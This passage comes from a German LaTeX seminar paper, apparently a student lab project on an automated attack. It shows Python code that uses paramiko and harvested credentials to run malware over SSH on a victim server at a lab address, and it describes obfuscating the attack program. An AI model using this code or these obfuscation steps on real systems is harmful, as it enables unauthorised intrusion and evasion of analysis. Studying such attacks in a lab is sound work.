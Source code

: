 \documentclass[12pt]{article}
\begin{document}
Nachdem die Malware auf den Opfer-Server gesendet wurde, wird sie nun von der Funktion 'ExecMalware' ausgeführt.
\begin{figure}[h]
 \caption{Funktion zum ausführen der Schadware}
 \begin{lstlisting}[language=python, style=code,basicstyle=\scriptsize]
 def ExecMalware():
 	getCredentials()
 	client = paramiko.SSHClient()
 	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
 	client.connect('172.17.0.2', username=user, password=pw)
 	time.sleep(1)
 	stdin, stdout, stderr = client.exec_command('python3 SW.py')
	for line in stdout:
	 	print(line)
	 	client.close()
 \end{lstlisting}

\end{figure}
Mit hilfe von Paramiko wird eine SSH Verbindung aufgebaut(vgl. Zeile 5). Anschließend wird in Zeile 7 über stdin des remote Servers die Malware gestartet.\\
Nun galt es die einzelnen Funktionen in eine Anwendung zusammenzuführen um einen komplett automatisierten Angriff zusammenzuführen. Des weiteren werden Methoden der Obfuskation verwendet um Debugging zu erschweren.\\
\newpage
Erster Ansatz war es hier das Python Programm zu byte-code zu Kompilieren.
\begin{center}
 \colorbox{mshadecolor}{\parbox{0.60\textwidth}{python -OO -m py\_compile <your attack.py}}
\end{center}
Des weiteren wird das Tool Oxyry verwendet[8]. Mit diesem ist es möglich komplette möglich Obfuskation zu erlangen.

\begin{figure}[h]
\caption{Obfuskation von Attackssh}
\begin{center}
 \includegraphics[scale=0.28]{data/obfus.png}
\end{center}

\end{figure}
\vspace{5mm}
Nach Ausführung der Schadware kann festgestellt werden das alle Angriffsziele erreicht wurden. 
\newpage
\section{Eigentständigkeitserklärung}
Hiermit bestätige ich, dass ich die vorliegende Arbeit selbstständig verfasst und keine anderen Publikationen als die angegebenen benutzt habe. Alle Teile meiner Arbeit, die wortwörtlich oder dem Sinn nach anderen Werken entnommen sind, wurden unter Angabe der Quelle kenntlich gemacht. Gleiches gilt für von mir verwendeten Internetquellen. Die Arbeit ist weder von mir noch von einem Kommilitonen in einem anderen Seminar vorgelegt worden.\\
Moritz Rupp, Albstadt, 27.06.2022
\end{document}
